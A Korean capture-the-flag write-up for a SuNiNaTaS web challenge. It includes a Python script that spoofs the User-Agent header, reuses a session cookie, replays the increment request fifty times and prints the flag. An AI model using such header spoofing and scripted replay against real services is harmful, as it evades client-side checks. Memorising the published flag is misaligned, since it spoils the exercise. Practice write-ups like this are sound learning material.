

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**


# **Write-Up**

html 소스를 보면 Hint가 나와있다.



Point는 50으로 입력하고 Plus를 클릭해도 1밖에 증가안한다. 그리고 25부터는 Plus를 클릭하면 I like SuNiNaTas browser라는 alert문이 뜬다.


접속자의 User-Agent를 알려주는 것을 보니 User-Agent를 조작하는 문제인가 보다.

```python
import urllib.request

url     = 'http://suninatas.com/challenge/web04/web04.asp'
request = urllib.request.Request(url)
response= urllib.request.urlopen(request)
cookie  = response.info().get_all('Set-Cookie')[0]
headers = {'User-Agent':'SuNiNaTaS', 'Cookie':cookie}

for i in range(50):
    url     = 'http://suninatas.com/challenge/web04/web04_ck.asp'
    request = urllib.request.Request(url, headers=headers)
    urllib.request.urlopen(request)

url     = 'http://suninatas.com/challenge/web04/web04.asp'
request = urllib.request.Request(url, headers=headers)
response= urllib.request.urlopen(request)
print(response.read().decode())

[Output]
... 생략 ...
<td class="table_top">Change your Us3r Ag3ent</td>
... 생략 ...
```


# **FLAG**

**Change your Us3r Ag3ent**